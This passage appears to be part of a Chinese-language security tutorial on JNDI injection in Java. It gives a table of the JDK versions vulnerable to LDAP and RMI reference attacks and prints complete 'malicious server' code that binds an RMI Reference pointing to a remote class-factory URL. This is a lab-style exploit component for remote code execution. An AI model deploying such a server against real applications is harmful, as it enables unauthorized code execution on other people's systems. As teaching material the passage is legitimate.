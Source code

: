 
### 影响版本

| 协议  | JDK6 | JDK7 | JDK8 | JDK11 |
| --- | --- | --- | --- | --- |
| LADP | 6u141、6u211 之前版本 | 7u201、7u131 之前版本 | 8u121、8u191 之前版本 | JDK11.0.1 之前版本 |
| RMI | 6u45、6u141、6u211 之前版本 | 7u21、7u131、7u201 之前版本 | 8u121、8u191 之前版本 | 无   |

## JNDI 注入

### RMI Reference 攻击

`com.sun.jndi.rmi.object.trustURLCodebase`

`java.rmi.server.useCodebaseOnly`

`com.sun.jndi.cosnaming.object.trustURLCodebase`

![图片](assets/1711872238-0cdd271dd9b9673bed6b1005b503e871.webp)

恶意服务端代码如下：

```plain
package JNDIResearch;

import javax.naming.InitialContext;
import javax.naming.NamingException;
import javax.naming.Reference;
import java.rmi.RemoteException;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class JNDIRMIServer {
    public static void main(String[] args) throws NamingException, RemoteException {
        InitialContext initialContext = new InitialContext();
        Registry registry = LocateRegistry.createRegistry(1099);
        // Reference 类构建一个远程引用对象，该引用对象类名为 exp，类工厂名为 exp，类工厂位置为 http://127.0.0.1:8080/
        Reference reference = new Reference("exp","exp","http://127.0.0.1:8080/");
        initialContext.bind("rmi://127.0.0.1:1099/exp",reference);
    }
}
```
